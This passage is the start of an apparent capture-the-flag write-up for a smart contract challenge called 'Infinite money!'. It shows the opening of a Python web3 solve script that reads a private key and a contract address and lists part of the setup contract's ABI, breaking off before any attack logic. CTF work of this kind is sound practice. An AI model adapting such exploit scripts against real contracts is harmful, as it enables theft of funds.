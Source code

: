 Infinite money!

I decided to use a Python script to solve this

```python
from web3 import Web3
from pwn import *
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# From challenge server
uuid = input('Enter UUID: ')

# Connect to Ethereum node
rpcURL = input('Enter RPC endpoint: ')
web3 = Web3(Web3.HTTPProvider(rpcURL))

# Setting up account
privateKey = input('Enter private key: ')
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
setupContractAddress = Web3.to_checksum_address(input('Enter setup contract address: '))

# Contract ABI for setup contract via Remix
setupContractABI = [
    {
		"inputs": [],
		"name": "claim",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
    {
		"inputs": [],
		"name": "ghd",
		"outputs": [
			{
				"internalType": "contract GHD",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "grey",
		"outputs": [
			{
				"internalType": "contract GREY",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "isSolved",
		"outputs": [
			{
```